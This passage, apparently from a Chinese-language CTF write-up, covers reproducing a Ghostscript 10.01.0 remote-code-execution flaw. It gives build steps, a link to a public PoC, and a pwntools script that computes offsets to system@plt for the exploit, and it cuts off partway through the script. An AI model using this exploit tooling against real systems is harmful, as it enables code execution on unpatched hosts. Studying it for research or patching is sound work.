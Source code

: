 注：由于不能从 `s_xBCPE_process` 函数的转义列表中写入字符（至少在这个 POC 中不能），因此我们可能需要重新启动该漏洞攻击几次，才能获得没有这些字节的堆地址。

## 漏洞复现

rwctf 提供了漏洞压缩包

```plain
tar xzvf ghostscript-10.01.0.tar.gz 
cd ./ghostscript-10.01.0 
./configure 
make
make install
```

按照以上顺序执行命令即可

文件在./bin/目录下

在 github 上找到 poc

[https://github.com/AlmondOffSec/PoCs/tree/master/Ghostscript\_rce](https://github.com/AlmondOffSec/PoCs/tree/master/Ghostscript_rce)

利用 getoffset.py 生成 poc 文件

```plain
#!/usr/bin/env python

# python offset.py /path/to/gs/binary

# or

# python offset.py /path/to/libgs

# thanks to Laluka for the help

from pwn import *
from sys import argv

if len(argv) != 2:
    print("Usage: python {argv[0]} /path/to/gs_bin or libgs")
    exit(1)


elf_path = argv[1]

# Load the ELF file

elf = ELF(elf_path)

# Get the address of the PLT

init_addr = elf.get_section_by_name('.init').header.sh_addr
print(".init start address: 0x{:x}".format(init_addr))

# Get the address of system@plt

system_plt_addr = elf.plt['system']
print("system@PLT address: 0x{:x}".format(system_plt_addr))
libc_plt_offset = system_plt_addr - init_addr
print("Offset from .init start addr to system@plt: 0x{:x} == {:d}".format(libc_plt_offset, libc_plt_offset))

f_addr_s_std_noseek = elf.functions["s_std_noseek"]
print("f_addr_s_std_noseek address: 0x{:x}".format(f_addr_s_std_noseek.address))
f_addr_s_std_noseek_offset = f_addr_s_std_noseek.address - init_addr
```